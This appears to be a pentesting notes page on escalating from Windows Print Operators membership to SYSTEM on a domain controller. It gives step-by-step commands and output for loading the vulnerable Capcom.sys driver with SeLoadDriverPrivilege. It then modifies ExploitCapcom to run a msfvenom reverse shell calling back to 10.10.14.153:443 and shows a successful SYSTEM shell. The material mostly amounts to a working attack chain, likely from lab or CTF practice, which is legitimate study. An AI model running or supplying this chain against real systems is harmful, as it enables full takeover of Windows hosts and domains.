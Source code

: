 ```yaml
---
description: Manage, create, share, and delete printers.
---
```


# Print Operators

Print Operators a highly privileged group whos members can manage, create, share and delete printers connected to the DC. If `SeLoadDriverPrivilege` is not visible from an unelevated context, we will need to bypass UAC.

```
*Evil-WinRM* PS C:\Users\svc-print\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

### <mark style="color:yellow;">Loading a vulnerable driver</mark>

As member of print operator with the privilege SeLoadDriverPrivilege we can load drivers and exploit it by loading a vulnerable driver. We can use CapCom driver for this.\
[https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

In Visual Studio create a new project eopdriver. Then past the code from [https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp](https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp)

From the includes remove `include "stdafx.h"`

Then build the project as Release and x64. Copy the compiled eodriver.exe and Capcom.sy to C:\programdata\\.

```powershell
*Evil-WinRM* PS C:\programdata> .\eopdriver.exe System\CurrentControlSet\Capcom C:\ProgramData\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\Capcom
NTSTATUS: 00000000, WinError: 0
```

### <mark style="color:yellow;">Exploit the driver</mark>

Having access to a gui we can just run ExploitCapCom as it will call cmd.exe. However without a gui thats not usefull. Therefore change the ExploitCapCom and point it to C:\ProgramData\reverse.exe which is a msfvenom made reverse shell.

1. Download ExploitCapcom and edit ExploitCapcom.cpp\
   [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

2. Change the line: `TCHAR CommandLine[] = TEXT("C:\ProgramData\reverse.exe");`.
3. Create a reverse shell `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.153 LPORT=443 -f exe -o reverse.exe`
4. Upload reverse.exe and the compiled ExploitCapcom.exe and run ExploitCapcom.exe for a reverse shell.

```powershell
*Evil-WinRM* PS C:\programdata> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 0000026FBA220008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```
